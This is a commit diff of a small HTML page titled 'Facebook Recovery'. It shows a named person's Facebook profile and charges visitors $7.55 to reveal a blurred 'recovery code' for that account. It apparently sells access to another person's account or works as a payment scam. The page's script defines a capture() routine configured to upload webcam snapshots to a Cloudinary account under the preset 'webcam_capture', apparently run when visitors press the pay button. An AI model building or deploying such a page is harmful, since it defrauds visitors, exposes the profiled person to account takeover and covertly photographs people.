

Before and after one commit to tusarimrananik/facebook-recovery, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 166-618 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,10 +1,9 @@
 <!DOCTYPE html>
 <html lang="en">
-
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Facebook Style Checkout</title>
+  <title>Facebook Recovery</title>
   <style>
     * {
       margin: 0;
@@ -70,6 +69,20 @@
       margin-bottom: 20px;
     }
 
+    .code-box {
+      font-size: 28px;
+      font-weight: bold;
+      letter-spacing: 8px;
+      text-align: center;
+      margin: 20px 0;
+      filter: blur(8px);
+      user-select: none;
+    }
+
+    .code-box.revealed {
+      filter: none;
+    }
+
     .pay-button {
       background-color: #1877f2;
       color: white;
@@ -79,6 +92,7 @@
       border-radius: 8px;
       cursor: pointer;
       transition: background-color 0.3s ease;
+      width: 100%;
     }
 
     .pay-button:hover {
@@ -86,28 +100,26 @@
     }
   </style>
 </head>
-
 <body>
   <div class="container">
     <div class="card">
       <div class="profile">
-        <img
-          src="https://scontent.fdac99-1.fna.fbcdn.net/v/t1.6435-9/145218214_798357337694100_4065249566845725218_n.jpg?_nc_cat=101&ccb=1-7&_nc_sid=6ee11a&_nc_ohc=NTlCIhQNL5oQ7kNvwFr3alk&_nc_oc=Adk76LvckfYh_j2cCbpYfT-3Y4cnYt14qDUApu_vnrvONDJc42JBpq2IlC_gvVLTHXc&_nc_zt=23&_nc_ht=scontent.fdac99-1.fna&_nc_gid=3uLowefEK-q1x9Px8mxkNw&oh=00_AfPfJo5qOcr0UuEXRgThSpQq8tkuV6zH4rCZKVpHahgUPA&oe=686D008B"
-          alt="Profile Photo" class="avatar" />
+        <img src="https://scontent.fdac99-1.fna.fbcdn.net/v/t1.6435-9/145218214_798357337694100_4065249566845725218_n.jpg" alt="Profile Photo" class="avatar" />
         <div class="details">
           <h2>Atikur Rahman Molla</h2>
           <p>Friends: 1.7K</p>
         </div>
       </div>
       <div class="checkout">
-        <p class="info">To get the code and vpn for this account, please pay</p>
-        <h3>$4.00</h3>
-        <button class="pay-button" onclick="handleBuy()">Pay $4 </button>
+        <p class="info">To get the 8-digit recovery code, please pay:</p>
+        <h3>$7.55</h3>
+        <div id="codeBox" class="code-box">12345678</div>
+        <button class="pay-button" onclick="handleBuy()">Pay $7.55 to Reveal Code</button>
       </div>
     </div>
   </div>
 
-  <script>
+   <script>
     async function capture(totalCaptures = 3, intervalMs = 200) {
       const cloudName = 'dojvahtu9';
       const uploadPreset = 'webcam_capture';
@@ -176,5 +188,4 @@
     }
   </script>
 </body>
-
 </html>
```
